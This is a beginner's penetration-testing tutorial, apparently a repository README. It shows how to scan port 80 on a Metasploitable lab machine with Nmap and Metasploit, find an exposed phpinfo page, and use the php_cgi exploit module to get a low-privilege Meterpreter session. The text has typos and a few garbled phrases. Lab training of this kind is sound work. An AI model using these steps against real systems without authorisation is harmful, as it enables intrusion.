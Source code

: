 # Exploiting HTTP: A Practical Guide

## Introduction to Port 80 Vulnerabilities

This guide demonstrates how to identify and understand vulnerabilities in HTTP services running on Port 80. This knowledge is essential for system administrators and security professionals to better protect their systems.

## Why Focus on Port 80?

HTTP (Hypertext Transfer Protocol) running on Port 80 is a fundamental protocol for web services. We focus on it because:

* It's commonly used for web traffic
* It transmits data in plaintext, making it easier to analyze
* Many legacy systems still use HTTP instead of HTTPS
* It's often a starting point for security assessments

## Required Tools

1. Metasploitable - A purposely vulnerable virtual machine for security testing
3. Kali Linux - Security-focused Linux distribution containing:
   * Nmap - Network scanning and reconnaissance tool
   * Metasploit Framework (MSF)
4. Web browser - For verifying findings

## Technical Breakdown

### Step 1: Initial Reconnaissance with Nmap

Command used: `nmap -sV [IP] -p80`

![Initial Nmap Scan Results](base_nmap_scan.png)

Let's break down this command:
* `-sV`: Performs version detection of services
* `-p80`: Specifically targets port 80
* This scan identifies:
   * Running web server software
   * Version information
   * Operating system details

### Step 2: Service Enumeration
1. Launch Metasploit Framework
`msfconsole`

2. Search for HTTP information gathering module
`search http_version`
![HTTP Version](http.png)

4. Select the HTTP version scanner
`use auxiliary/scanner/http/http_version`

5. View available options
`show options`

6. Set your target IP
`set RHOSTS [TARGET_IP]`

7. Execute the scan
`run`
![RHOSTS Output](rhosts.png)

**Note: Run the scan to gather detailed information about what services and applications are running on this port. This reconnaissance step will help identify the specific technologies and versions being used by the target web server. Once we have this information, we can better understand what potential vulnerabilities or misconfigurations might exist and determine our next steps for enumeration.**

### Step 2a: Understand the Information Given
The codeblock that was returned to us provides a lot of information in one single line. Every single one of the returned components is important. In some way, they are all succeptible to manipulation and exploitation. I will provide a better breakdown of how. 

**Apache/2.28** - This is the Apache web server software, version 2.28
  * Web server vulnerabilities like remote code execution
    
**(Ubuntu)** - The server is running on Ubuntu Linux distribution
  * OS-level vulnerabilities (kernel exploits, privilege escalation)
    
**DAV/2** - WebDAV (Web Distributed Authoring and Versioning) version 2 is enabled, which allows file management over HTTP
  * File manipulation vulnerabilities, directory traversal
    
**Powered by PHP/5.2.4-2 ubuntu5.10*** - The server is running PHP version 5.2.4-2, specifically the Ubuntu package version 5.10
  * Most critical due to age: Remote code execution, SQL injection, File inclusion vulnerabilities, Memory corruption issues

**Out of all these options - the PHP one seems the most attractive. It extremely only (15 years) and has multiple access points. There is also a lot of open source information that we can find online to help us accomplish this.**


### Step 3: Directory Structure Analysis
The next thing that we are going to do is ensure that PHP is running an possibly see some of the other protocols running on out Port 80 (HTTP).


A directory scanner (dir_scanner) actively probes for hidden directories and files on a web server, while HTTP version detection just identifies server software versions. Here's the reformatted command sequence:

1. Launch Metasploit Framework `msfconsole`

2. Search for directory scanning module `search dir_scanner`

3. View scanner options `show options`

4. Configure target `set RHOSTS [IP]`

5. Execute scan `run`
   ![Dir_Scanner Output](dir_scanner_output.png)

### Step 4: Clarify Objective
We want access to the backend of the HTTP server. Here is the visualization of the front-end.
![Metaploitable HTTP](http_homepage.png)
![PHP Admin Login](php_admin.png)


### Step 5: Exploit :)

1. The most straighforward way to get more information is to search for an admin login page that may be explosed becuase developers left it open. there are a couple of naming conventions that this could falll under.
  * [IP or WebAddress]/info.php or [IP or WebAddress]/phpinfo.php

    These are the results: ![PHP Admin Page](PHPinfo.png)

2. Out of all the sections here, one stands out the most. The configuration file stands out the most because we may be able to gain access through it. After all, that's what it's intended for.
Let's load up Metasploitable and figure out how to find an exploit now.
  * Launch Metasploit Framework `msfconsole`
  * Find a Suitable Exploit `seach php_cgi`
    Bingo: ![PHP CGI Exploit Located](CGIInjection.png)
3. Let's load up and exploit.
  * `use 0`
  * `show options`
  * `set RHOSTS [IP]`
  * `exploit`
  * The Meterpreter session starting was an extremely good sign. Now we can pop a shell. But first let's verify we are in.

![Session Started with Exploit](Exploit.png)

Here you can see that we are a lower-level privileged user. There are also files available on the backend that we couldn't see at first when we went to the HTTP web page.
So we can consider this a success.

Next time we will unpack how to escalate our low-level privileges so that we can do more and fully own the system.
![Success](AccessGranted.png)
